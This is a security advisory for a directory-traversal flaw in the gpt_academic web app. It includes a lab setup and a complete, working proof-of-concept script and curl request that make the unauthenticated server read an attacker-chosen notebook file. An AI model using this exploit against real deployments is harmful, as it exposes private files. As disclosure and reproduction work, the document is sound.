



# CVE-2026-50936 — Unauthenticated Server-Side Notebook Read via Path Parameter in gpt_academic

[CVE ID]
CVE-2026-50936

[PRODUCT]
binary-husky/gpt_academic — an LLM-powered research/coding assistant web app (Gradio UI with user-extensible "crazy_functions" plugins).

[VERSION]
Pinned commit `d6bde0fa54373309bd05823a49bda8da019d2c77` (2026-01-25, "apply autoflake") — the upstream HEAD as recorded for this case in March 2026; this run checked out and verified the same SHA

[PROBLEM TYPE]
Directory Traversal (`CWE-22`) — unrestricted attacker-controlled server-side path selection (absolute paths and `..` chains are both accepted; there is no base-directory confinement at all).

## Description

The Gradio frontend exposes a generic plugin dispatcher at `POST /run/predict` (the hidden `old_callback_btn_for_plugin_exe` callback, `fn_index` derived from the live `/config`). With the default configuration (`AUTHENTICATION = []` in `config.py`) this endpoint requires no login. The request's main-textbox element (component id 13) is passed as `txt` to the registered plugin `解析Jupyter Notebook文件` ("parse Jupyter Notebook file", advertised in the UI as "输入参数为路径" — input parameter is a path). In `解析ipynb文件(txt, ...)` the only validation on `txt` is `os.path.exists(txt)`; the value is then used verbatim as `project_folder` and as the file path: a `.ipynb`-suffixed value goes straight into `parseNotebook(filename)`, whose `open(filename, 'r', ...)` reads the file, and a directory value is fed into a recursive `glob.glob(f'{project_folder}/**/*.ipynb', recursive=True)` enumeration. No canonicalization, no allowlist, and no confinement to an upload/workspace directory exists, so an anonymous remote user can direct the server to open notebook files at any location accessible to the service account (the PoC uses an absolute path outside the application directory).

Vulnerable code: https://github.com/binary-husky/gpt_academic/blob/d6bde0fa54373309bd05823a49bda8da019d2c77/crazy_functions/SourceCode_Analyse_JupyterNotebook.py#L45 (sink `open`), reached via #L118 (plugin entry), #L127-L128 (`os.path.exists`-only gate, `project_folder = txt`), #L136-L137 (direct file path), #L139-L140 (recursive directory glob); plugin registration: https://github.com/binary-husky/gpt_academic/blob/d6bde0fa54373309bd05823a49bda8da019d2c77/crazy_functional.py#L193-L201; dispatcher wiring: https://github.com/binary-husky/gpt_academic/blob/d6bde0fa54373309bd05823a49bda8da019d2c77/main.py#L286-L287.

## Proof of Concept

### Victim setup

Condensed from the case runbook (`poc_e2e/platform_repro.md`); executed on the reproduction host. A local OpenAI-compatible echo sidecar captures the plugin's downstream LLM request as evidence (no real OpenAI calls, dummy API key). The app image is built from the pinned commit via the upstream `Dockerfile` (with the runbook's `setuptools==69.5.1` build patch); this run reused the pre-existing `scdd-platform/gpt_academic:d6bde0` image after verifying its key files are byte-identical to the pinned commit.

```bash
# 0) create the echo sidecar script (verbatim from the case runbook, poc_e2e/platform_repro.md)
mkdir -p ./scdd_echo
cat > ./scdd_echo/openai_echo_server.py <<'PY'
import argparse
import json
import os
from http.server import BaseHTTPRequestHandler, HTTPServer


class Handler(BaseHTTPRequestHandler):
    def _send(self, code: int, body: bytes, *, ctype: str) -> None:
        self.send_response(code)
        self.send_header("Content-Type", ctype)
        self.send_header("Content-Length", str(len(body)))
        self.end_headers()
        self.wfile.write(body)

    def do_POST(self):  # noqa: N802
        length = int(self.headers.get("Content-Length", "0") or "0")
        raw = self.rfile.read(length) if length > 0 else b""
        try:
            obj = json.loads(raw.decode("utf-8", errors="replace"))
        except Exception:
            obj = {"_raw": raw.decode("utf-8", errors="replace")}

        # Persist the latest request as JSON evidence.
        out = self.server.out_path  # type: ignore[attr-defined]
        os.makedirs(os.path.dirname(out), exist_ok=True)
        with open(out, "w", encoding="utf-8") as f:
            json.dump(obj, f, ensure_ascii=False, indent=2)

        # Minimal compatible response (non-streaming).
        body = json.dumps(
            {
                "id": "scdd-echo",
                "object": "chat.completion",
                "choices": [{"index": 0, "message": {"role": "assistant", "content": "SCDD_DUMMY_MODEL_OK"}, "finish_reason": "stop"}],
                "model": obj.get("model", "dummy"),
            }
        ).encode("utf-8")
        self._send(200, body, ctype="application/json")


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("--host", default="127.0.0.1")
    ap.add_argument("--port", type=int, default=18080)
    ap.add_argument("--out", default="/out/openai_request.json")
    args = ap.parse_args()

    httpd = HTTPServer((args.host, args.port), Handler)
    httpd.out_path = args.out  # type: ignore[attr-defined]
    httpd.serve_forever()
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
PY

# 1) OpenAI echo sidecar (captures the LLM request that carries the leaked content)
docker run --rm -d --name scdd_50936_echo --network host \
  -v "$PWD/scdd_echo:/out" -v "$PWD/scdd_echo/openai_echo_server.py:/srv/openai_echo_server.py:ro" \
  python:3.11-slim python /srv/openai_echo_server.py --host 127.0.0.1 --port 18082 --out /out/openai_request.json

# 2) gpt_academic at the pinned commit (host network, port 39080, dummy key, LLM redirected to the echo)
#    Image: built locally from the pinned commit with the upstream Dockerfile
#    plus the runbook's build patch — insert before the warm_up_modules step:
#      RUN uv pip install 'setuptools==69.5.1'
#    i.e.:
#      git clone https://github.com/binary-husky/gpt_academic.git && cd gpt_academic
#      git checkout d6bde0fa54373309bd05823a49bda8da019d2c77
#      # patch Dockerfile as above, then:
#      docker build -t scdd-platform/gpt_academic:d6bde0 .
#    This run reused the pre-existing image (id sha256:8cfeab25d463...) after verifying its
#    five key files are byte-identical to the pinned commit (session log [1/8]).
docker run -d --name scdd_50936_gpt --network host \
  -e "WEB_PORT=39080" \
  -e "API_KEY=sk-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" \
  -e "API_URL_REDIRECT={\"https://api.openai.com/v1/chat/completions\":\"http://127.0.0.1:18082/v1/chat/completions\"}" \
  scdd-platform/gpt_academic:d6bde0

# wait for readiness
curl -fsS http://127.0.0.1:39080/config -o /dev/null
```



### Attack steps

```bash
# victim-side marker notebook (stands in for any sensitive .ipynb; never uploaded through the UI)
docker exec -e MARKER=CVE50936_MARKER -e IPYNB_PATH=/tmp/scdd_ipynb_secret.ipynb scdd_50936_gpt bash -lc '
  cat > "$IPYNB_PATH" <<EOF
{"cells": [{"cell_type":"markdown","metadata":{},"source":["$MARKER\\n"]}], "metadata": {}, "nbformat": 4, "nbformat_minor": 5}
EOF
  ls -la "$IPYNB_PATH"'

# derive fn_index + input layout from the unauthenticated GET /config, then craft the payload
curl -sS http://127.0.0.1:39080/config -o /tmp/scdd_50936_config.json
python3 - <<'PY'
import json
from pathlib import Path

cfg = json.loads(Path("/tmp/scdd_50936_config.json").read_text(encoding="utf-8"))
components = {c.get("id"): c for c in cfg.get("components", [])}

# fn_index: click dependency that targets the hidden plugin-dispatcher button
old_id = next((c.get("id") for c in cfg.get("components", [])
               if (c.get("props") or {}).get("elem_id") == "old_callback_btn_for_plugin_exe"), None)
if old_id is None:
    raise SystemExit("old_callback_btn_for_plugin_exe not found in /config")
fn_index, dep = None, None
for i, d in enumerate(cfg.get("dependencies") or []):
    if d.get("trigger") == "click" and old_id in (d.get("targets") or []):
        fn_index, dep = i, d
        break
if fn_index is None or dep is None:
    raise SystemExit("plugin callback dependency not found in /config")

# plugin name is a hard-coded Chinese key at this commit; derive it from the
# live dropdown choices instead of hard-coding it (an English name would miss)
choices = ((components.get(59) or {}).get("props") or {}).get("choices") or []
plugin_name = next(c for c in choices if "Jupyter" in c and ("Notebook" in c or "ipynb" in c))

# component 13 = main textbox (attacker-controlled server path),
# component 59 = plugin switch (plugin name)
data = []
for cid in dep.get("inputs") or []:
    if cid == 13:
        data.append("/tmp/scdd_ipynb_secret.ipynb")
    elif cid == 59:
        data.append(plugin_name)
    else:
        data.append(((components.get(cid) or {}).get("props") or {}).get("value"))

payload = {"fn_index": fn_index, "data": data, "session_hash": "scdd-50936"}
Path("/tmp/scdd_50936_run_predict.json").write_text(
    json.dumps(payload, ensure_ascii=False, indent=2), encoding="utf-8")
print("fn_index =", fn_index)
print("plugin_name =", plugin_name)
print("data =", json.dumps(data, ensure_ascii=False))
PY
# observed in the recorded run (transcript section [4/8]):
#   fn_index = 54
#   plugin_name = 解析Jupyter Notebook文件
#   data = ["解析Jupyter Notebook文件", null, 4096, "gpt-3.5-turbo-16k", "/tmp/scdd_ipynb_secret.ipynb", "", 1.0, 1.0, [], "", "Serve me as a writing and programming assistant.", ""]

# trigger — no cookies, no credentials
curl -sS --max-time 120 -X POST http://127.0.0.1:39080/run/predict \
  -H 'Content-Type: application/json' --data-binary @/tmp/scdd_50936_run_predict.json
```



### Evidence

The echo sidecar captured the plugin's downstream OpenAI request containing the marker read from `/tmp/scdd_ipynb_secret.ipynb` (marker hit on attempt 4 of the polling loop):

```
$ grep -nF CVE50936_MARKER ./scdd_echo/openai_request.json
10:      "content": "This is a Jupyter Notebook file, tell me about Each Block in Chinese. ... \n\nThis is 1th code block: \nMarkdown:CVE50936_MARKER\n\n"
```

`docker exec` confirms the notebook existed only inside the victim container at the attacker-referenced absolute path:

```
$ docker exec scdd_50936_gpt bash -lc 'ls -la /tmp/scdd_ipynb_secret.ipynb && head -c 200 /tmp/scdd_ipynb_secret.ipynb'
-rw-r--r-- 1 root root 153 Sep 28 04:56 /tmp/scdd_ipynb_secret.ipynb
{"cells": [{"cell_type":"markdown","metadata":{},"source":["CVE50936_MARKER\n"]}], ...}
```

The Gradio response shows the plugin executing server-side ("对IPynb文件进行解析。Contributor: codycjy." / "请开始多线程操作。"). Full session: `evidence/transcript.txt`; excerpts: `evidence/key_evidence.txt`.



## Impact

What a remote attacker actually achieves, kept factual:

- **Pre-authentication reachability**: with the stock configuration (`AUTHENTICATION = []`), an anonymous remote user of the Gradio frontend can invoke the plugin dispatcher and supply an arbitrary server-side path string; `os.path.exists()` is the only gate.
- **Demonstrated primitive — server-side file read with content disclosure**: the server opens the attacker-chosen path and the parsed content is injected into the downstream LLM prompt. The PoC proves the read of an absolute path outside the application directory; in the recorded session the marker appeared in the captured downstream LLM request, while the Gradio response showed the plugin starting to execute server-side (rendering of the analysis output in the UI was not separately demonstrated). A directory input additionally triggers recursive `**/*.ipynb` enumeration, enabling bulk extraction of every notebook under any server directory.
- **Content constraints**: `parseNotebook` uses `json.load` and accesses `notebook['cells']`, so the target must exist and parse as notebook-shaped JSON (`.ipynb` files, and any JSON file with a `cells` array). This is not a general arbitrary-file-read of files like `/etc/passwd`, and no write or delete primitive exists.
- **No command execution observed**: the CVE record's "execute arbitrary code" wording is not supported by the observed behavior; the reproduced effect is local file disclosure of notebook files into the LLM/UI flow, not code execution.
- **Boundary/design caveat**: the plugin is intentionally advertised as taking a path parameter ("输入参数为路径"), and internal review flagged this case as plausibly intended plugin capability — no workspace boundary that the plugin is meant to enforce was proven to be bypassed. The security-relevant defect is that an unauthenticated frontend exposes this path-accepting plugin with zero path confinement, letting anonymous users aim the read anywhere on the server filesystem.

## Occurrences

- `crazy_functions/SourceCode_Analyse_JupyterNotebook.py:L45` — sink: `open(filename, 'r', ...)` in `parseNotebook`
- `crazy_functions/SourceCode_Analyse_JupyterNotebook.py:L118` — plugin entry `解析ipynb文件(txt, ...)` accepting user-controlled path
- `crazy_functions/SourceCode_Analyse_JupyterNotebook.py:L127-L128` — only gate: `if os.path.exists(txt): project_folder = txt` (no allowlist/canonicalization)
- `crazy_functions/SourceCode_Analyse_JupyterNotebook.py:L136-L137` — file input used directly: `if txt.endswith('.ipynb'): file_manifest = [txt]`
- `crazy_functions/SourceCode_Analyse_JupyterNotebook.py:L139-L140` — directory input: recursive `glob.glob(f'{project_folder}/**/*.ipynb', recursive=True)`
- `crazy_functional.py:L193-L201` — plugin registration `解析Jupyter Notebook文件` → `HotReload(解析ipynb文件)` with `Info: "解析Jupyter Notebook文件 | 输入参数为路径"`
- `main.py:L286-L287` — pre-auth Gradio dispatcher wiring: `old_plugin_callback.click(route, [switchy_bt, *input_combo], ...)`
- `config.py:L203` — `AUTHENTICATION = []` (default: no login required)

## References

- [CVE-2026-50936](https://www.cve.org/CVERecord?id=CVE-2026-50936)
- [binary-husky/gpt_academic](https://github.com/binary-husky/gpt_academic) — pinned commit [`d6bde0fa54373309bd05823a49bda8da019d2c77`](https://github.com/binary-husky/gpt_academic/tree/d6bde0fa54373309bd05823a49bda8da019d2c77)
